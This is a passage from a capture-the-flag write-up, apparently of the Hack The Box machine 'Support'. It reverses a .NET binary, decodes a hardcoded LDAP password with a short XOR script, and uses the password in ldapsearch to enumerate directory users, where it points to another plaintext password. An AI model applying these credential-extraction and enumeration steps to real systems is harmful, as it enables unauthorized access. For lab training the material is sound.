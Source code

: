 ```text-plain
  getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (1042.3 KiloBytes/sec) (average 1042.3 KiloBytes/sec)
```

Static Code Review
------------------

Once we have the UserInfo.exe binary on our host system we can move it to a windows VM and inspect it with .NET reflector. In the LDAP query class we find an encoded password and a function used to encode it. We will need to reverse engineer this function and write a bit of python to decode the password.

![image](https://user-images.githubusercontent.com/110564012/235828131-3dbab6ac-8028-48b2-8340-fef0d818967b.png)

Since we're already using a Windows VM I will run the following code in pycharm which will return the decoded password.

```text-plain
import base64

def main():
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b'armando'

array = base64.b64decode(enc_password)
array2=""
for i in range(len(array)):
	array2 += chr(array[i] ^ key[i % len(key)] ^ 223)

print(array2)


if __name__ == '__main__':
	main()
```

The decoded password:

```text-plain
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

LDAP Enumeration
----------------

Now that we have this LDAP credential we can run an LDAP query on the target. The *info* field contains what appears to be a plaintext password.

```text-plain
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
```